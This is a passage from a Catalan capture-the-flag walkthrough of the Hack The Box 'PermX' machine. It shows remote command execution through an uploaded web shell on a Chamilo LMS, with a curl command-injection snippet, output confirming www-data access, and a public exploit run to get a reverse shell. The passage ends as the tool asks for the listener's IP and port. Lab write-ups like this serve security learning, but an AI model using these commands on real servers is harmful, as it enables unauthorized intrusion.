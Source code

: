 ```
CMD=$(echo $CMD|base64 -w0| python3 -c "import urllib.parse,sys; print(urllib.parse.quote_plus(sys.stdin.read()))")
curl "$HOST/$URL_FILE?aoOoy=$CMD"`
```


L'executem i sembla que funciona perfectament:

```
┌──(polkali㉿kaliPol)-[~/Documents/PermX]
└─$ ./reverse.sh 
The file has successfully been uploaded.uid=33(www-data) gid=33(www-data) groups=33(www-data)`
```

Ara canviarem la variable CMD de l'script en bash per whoami, per acabar de confirmar que funciona correctament i estem amb l'usuari del servidor apache, l'usuari www-data:

```
┌──(polkali㉿kaliPol)-[~/Documents/PermX]
└─$ ./reverse.sh   
The file has successfully been uploaded.www-data`
```

Ara, provarem de veure a quin directori estem amb pwd i amb ls -la llistar el que hi ha, i així anar-nos movent i llistant fins que trobem alguna cosa interessant:

```
└─$ ./reverse.sh   
The file has successfully been uploaded./var/www/chamilo/main/inc/lib/javascript/bigupload/files

┌──(polkali㉿kaliPol)-[~/Documents/PermX]
└─$ ./reverse.sh   
The file has successfully been uploaded.total 32
drwxr-xr-x 2 www-data www-data 4096 Aug  3 17:26 .
drwxr-xr-x 6 www-data www-data 4096 Jan 20  2024 ..
-rw-r--r-- 1 www-data www-data 5493 Aug  3 15:16 php-reverse-shell.php
-rw-r--r-- 1 www-data www-data  122 Aug  3 17:27 rce.php
-rw-r--r-- 1 www-data www-data 5491 Aug  3 17:26 rev.php
-rw-r--r-- 1 www-data www-data 3461 Aug  3 15:43 rs.php`
```

No he aconseguit res més amb aquest exploit, però he trobat aquest altre repositori de GitHub que sembla que ens crearà una reverse shell: https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc?source=post_page-----f2d1b348d7f8--------------------------------

Primer clonem el repositori a la nostra màquina

Després de fer unes quantes proves i haver llegit el README del repositori, llencem la següent comanda que ens crearà una reverse shell:

```
┌──(polkali㉿kaliPol)-[~/Documents/PermX/chamilo-lms-unauthenticated-big-upload-rce-poc]
└─$ python3 main.py -u http://lms.permx.htb -a revshell`
```

Ara ens sortiran una sèrie de preguntes per pantalla que hem de respondre, on posarem la IP de la nostra màquina i el port per on estarem escoltant per la reverse shell:

